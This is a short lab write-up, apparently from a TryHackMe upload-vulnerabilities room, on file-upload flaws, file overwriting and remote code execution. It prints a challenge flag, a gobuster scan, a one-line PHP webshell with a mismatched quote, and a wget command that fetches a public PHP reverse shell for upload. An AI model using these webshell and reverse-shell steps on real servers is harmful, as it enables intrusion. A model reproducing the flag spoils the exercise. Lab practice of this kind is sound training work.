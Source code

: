 File uploading is an integral part of any web application and uploading can open up severe vulnerabilities in the server when handed badly. 
- from minor nuisance to RCE(remote code execution) if attacker uploads a shell
- injecting malicious content, pages, and altering data

to exploit-
- client side filtering - look at the code and bypass the filter
- server side filtering - guess the possible functionality of the filter, upload a file and then analyse the error messages

## Overwriting Existing Files
protecting files form being overwritten -
- make sure it's a new name
- file permissions

To do the task given, navigate to the website given
- view the source code and the name of the image 
- the name of the image is mountains.jpg, now download any other image and save it as mountains.jpg.
- Now, click on select file and select mountains.jpg, then click on upload
- The flag gets displayed
**FLAG - `THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}`**

## Remote Code Execution
two basic ways to achieve RCE-
1. webshells
2. Reverse/bind shells

##### Achieving RCE using webshells
first run a gobuster scan on the website
```bash
$ gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

on running the scan we see that we have 2 directories resources and assets
whatever we upload can be seen in the /resources directory

write a script and save it in a .php file
however for this challenge webshell doesn't work
```php
<?php
	echo system($_GET["cmd']);
?> 
```
and then upload this file and go to /resources and click on it, you see the response in the url 

##### Achieving RCE using reverse shell
download the file mentioned using
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Just rename it to shell.php for convenience
then select and upload shell.php

